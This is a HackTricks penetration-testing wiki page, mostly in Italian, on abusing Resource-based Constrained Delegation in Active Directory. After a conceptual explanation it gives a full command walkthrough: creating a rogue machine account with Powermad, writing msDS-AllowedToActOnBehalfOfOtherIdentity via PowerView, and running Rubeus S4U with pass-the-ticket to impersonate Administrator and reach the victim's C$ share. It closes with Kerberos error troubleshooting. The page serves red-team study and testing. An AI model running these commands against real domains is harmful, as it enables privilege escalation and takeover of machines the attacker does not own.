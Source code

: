# Resource-based Constrained Delegation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Basics of Resource-based Constrained Delegation

Questo è simile alla base [Constrained Delegation](constrained-delegation.md) ma **invece** di dare permessi a un **oggetto** per **impersonare qualsiasi utente contro un servizio**. La Resource-based Constrained Delegation **imposta** nell'**oggetto chi può impersonare qualsiasi utente contro di esso**.

In questo caso, l'oggetto vincolato avrà un attributo chiamato _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ con il nome dell'utente che può impersonare qualsiasi altro utente contro di esso.

Un'altra importante differenza tra questa Constrained Delegation e le altre deleghe è che qualsiasi utente con **permessi di scrittura su un account macchina** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) può impostare il _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (nelle altre forme di Delegation era necessario avere privilegi di amministratore di dominio).

### New Concepts

Nella Constrained Delegation è stato detto che il **`TrustedToAuthForDelegation`** flag all'interno del valore _userAccountControl_ dell'utente è necessario per eseguire un **S4U2Self.** Ma non è completamente vero.\
La realtà è che anche senza quel valore, puoi eseguire un **S4U2Self** contro qualsiasi utente se sei un **servizio** (hai uno SPN) ma, se hai **`TrustedToAuthForDelegation`** il TGS restituito sarà **Forwardable** e se **non hai** quel flag il TGS restituito **non sarà** **Forwardable**.

Tuttavia, se il **TGS** utilizzato in **S4U2Proxy** **NON è Forwardable** cercando di abusare di una **basic Constrain Delegation** non **funzionerà**. Ma se stai cercando di sfruttare una **Resource-Based constrain delegation, funzionerà** (questo non è una vulnerabilità, è una caratteristica, apparentemente).

### Attack structure

> Se hai **privilegi di scrittura equivalenti** su un **account Computer** puoi ottenere **accesso privilegiato** in quella macchina.

Supponiamo che l'attaccante abbia già **privilegi di scrittura equivalenti sull'computer vittima**.

1. L'attaccante **compromette** un account che ha uno **SPN** o **ne crea uno** (“Servizio A”). Nota che **qualsiasi** _Admin User_ senza alcun altro privilegio speciale può **creare** fino a 10 **oggetti Computer (**_**MachineAccountQuota**_**)** e impostarli con uno **SPN**. Quindi l'attaccante può semplicemente creare un oggetto Computer e impostare uno SPN.
2. L'attaccante **abusa del suo privilegio di SCRITTURA** sull'computer vittima (ServizioB) per configurare **la delega vincolata basata su risorse per consentire a ServiceA di impersonare qualsiasi utente** contro quell'computer vittima (ServizioB).
3. L'attaccante utilizza Rubeus per eseguire un **attacco S4U completo** (S4U2Self e S4U2Proxy) da Servizio A a Servizio B per un utente **con accesso privilegiato a Servizio B**.
1. S4U2Self (dall'account SPN compromesso/creato): Chiedi un **TGS di Administrator per me** (Non Forwardable).
2. S4U2Proxy: Usa il **TGS non Forwardable** del passo precedente per chiedere un **TGS** da **Administrator** all'**host vittima**.
3. Anche se stai usando un TGS non Forwardable, poiché stai sfruttando la delega vincolata basata su risorse, funzionerà.
4. L'attaccante può **pass-the-ticket** e **impersonare** l'utente per ottenere **accesso al ServizioB vittima**.

Per controllare il _**MachineAccountQuota**_ del dominio puoi usare:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Attacco

### Creazione di un Oggetto Computer

Puoi creare un oggetto computer all'interno del dominio utilizzando [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Configurazione della R**esource-based Constrained Delegation**

**Utilizzando il modulo PowerShell di activedirectory**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Utilizzando powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Eseguire un attacco S4U completo

Prima di tutto, abbiamo creato il nuovo oggetto Computer con la password `123456`, quindi abbiamo bisogno dell'hash di quella password:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Questo stamperà gli hash RC4 e AES per quell'account.\
Ora, l'attacco può essere eseguito:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Puoi generare più ticket semplicemente chiedendo una volta utilizzando il parametro `/altservice` di Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Nota che gli utenti hanno un attributo chiamato "**Non può essere delegato**". Se un utente ha questo attributo impostato su True, non sarai in grado di impersonarlo. Questa proprietà può essere vista all'interno di bloodhound.
{% endhint %}

### Accesso

L'ultima riga di comando eseguirà il **completo attacco S4U e inietterà il TGS** dall'Amministratore all'host vittima in **memoria**.\
In questo esempio è stato richiesto un TGS per il servizio **CIFS** dall'Amministratore, quindi sarai in grado di accedere a **C$**:
```bash
ls \\victim.domain.local\C$
```
### Abuso di diversi ticket di servizio

Scopri i [**ticket di servizio disponibili qui**](silver-ticket.md#available-services).

## Errori di Kerberos

* **`KDC_ERR_ETYPE_NOTSUPP`**: Questo significa che kerberos è configurato per non utilizzare DES o RC4 e stai fornendo solo l'hash RC4. Fornisci a Rubeus almeno l'hash AES256 (o fornisci solo gli hash rc4, aes128 e aes256). Esempio: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Questo significa che l'ora del computer attuale è diversa da quella del DC e kerberos non funziona correttamente.
* **`preauth_failed`**: Questo significa che il nome utente + hash forniti non funzionano per il login. Potresti aver dimenticato di mettere il "$" all'interno del nome utente quando hai generato gli hash (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Questo può significare:
* L'utente che stai cercando di impersonare non può accedere al servizio desiderato (perché non puoi impersonarlo o perché non ha abbastanza privilegi)
* Il servizio richiesto non esiste (se chiedi un ticket per winrm ma winrm non è in esecuzione)
* Il computer fittizio creato ha perso i suoi privilegi sul server vulnerabile e devi restituirli.

## Riferimenti

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
